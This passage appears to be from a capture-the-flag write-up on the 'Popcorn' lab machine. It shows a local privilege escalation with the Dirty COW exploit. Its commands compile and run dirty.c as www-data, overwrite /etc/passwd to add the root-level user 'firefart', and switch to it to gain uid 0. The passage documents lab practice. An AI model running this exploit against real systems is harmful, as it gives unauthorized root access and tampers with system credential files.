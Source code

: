 ```

www-data@popcorn:/dev/shm$ gcc -pthread dirty.c -o dirty -lcrypt

```

Now run it:

```

www-data@popcorn:/dev/shm$ chmod +x dirty
www-data@popcorn:/dev/shm$ ./dirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: 
Complete line:
firefart:fiek5FdMtod.2:0:0:pwned:/root:/bin/bash

mmap: b78a8000
^C

```

For some reason it hangs sometimes. After a minute, I’ll kill it. But the user is still added:

```

www-data@popcorn:/dev/shm$ su - firefart
Password: 
firefart@popcorn:~# id
uid=0(firefart) gid=0(root) groups=0(root)
firefart@popcorn:~#

```